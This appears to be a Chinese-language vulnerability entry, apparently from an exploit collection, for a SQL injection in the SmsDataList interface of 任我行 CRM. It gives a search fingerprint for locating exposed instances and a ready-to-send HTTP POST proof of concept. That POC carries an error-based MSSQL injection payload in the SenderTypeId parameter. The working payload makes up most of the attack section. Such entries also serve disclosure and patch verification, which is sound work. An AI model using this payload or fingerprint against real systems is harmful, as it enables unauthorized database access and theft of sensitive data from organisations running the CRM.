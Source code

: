 # 任我行 CRM SmsDataList SQL注入漏洞

## 漏洞描述

任我行 CRM SmsDataList 接口存在SQL注入漏洞，攻击者通过漏洞可以执行任意数据库语句，获取敏感信息

## 漏洞影响

<a-checkbox checked>任我行 CRM</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"欢迎使用任我行CRM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691823257291-6328f717-116f-4bc7-9f49-4bb4673487e1.png)

验证POC

```php
POST /SMS/SmsDataList/?pageIndex=1&pageSize=30 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

Keywords=&StartSendDate=2020-06-17&EndSendDate=2020-09-17&SenderTypeId=0000000000' and 1=convert(int,(sys.fn_sqlvarbasetostr(HASHBYTES('MD5','123456')))) AND 'CvNI'='CvNI
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691823280317-687cb156-d2cf-4968-9095-891b429a60a2.png)